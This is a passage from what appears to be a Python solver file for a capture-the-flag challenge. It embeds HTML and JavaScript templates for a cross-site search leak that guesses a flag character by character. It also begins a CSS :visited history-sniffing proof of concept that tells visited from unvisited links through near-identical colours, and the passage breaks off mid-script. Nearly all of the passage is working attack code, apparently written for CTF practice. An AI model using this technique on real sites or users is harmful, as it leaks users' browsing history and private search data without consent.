 ```python
    </style>
</head>
<body>
<script>
    async function isVisited(url) {
        let pocw = window.open(`/poc?url=${encodeURIComponent(url)}`, 'poc');
        pocw.focus();
    }

    // Extract the fragment identifier from the URL
    let hash = window.location.hash.substring(1) || "flag{g68r|a";
    let [guess, current_guess] = hash.split('|');
    let base_url = '{{CHALLENGE_URL}}search?q=flag{'; //change based on flag format
    let charset = '{{ CHARSET }}'.split('');

    async function exploit(current_guess) {
        let w = open(`${base_url}${guess}${current_guess}`, 'guess');
        await new Promise((resolve) => setTimeout(resolve, 1000));
        w.close();
        isVisited(`${base_url}${guess}${current_guess}`);
    }
    exploit(current_guess);
</script>
</body>
</html>
'''

poc_html = '''
<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8"/>
    <style type="text/css">
        #target {
            color: white;
            background-color: white;
            outline-color: white;
        }
        #target:visited {
            color: #feffff;
            background-color: #fffeff;
            outline-color: #fffffe;
        }
    </style>
</head>
<body>
    <div id="entryDisplay">
        Enter a URL to test for visited status:
        <input id="urlInput" type="text" size="60" value="{{ url }}" autofocus/>
        <button id="testButton">Test</button>
    </div>
    <script type="text/javascript">
        (function () {
            var entryDisplay = document.getElementById('entryDisplay');
            var urlInput = document.getElementById('urlInput');
            var testButton = document.getElementById('testButton');
            
            var basisUrl;
            var controlUrl;
            var experimentUrl;
            
            var targetLink;
            var controlTickCount;
```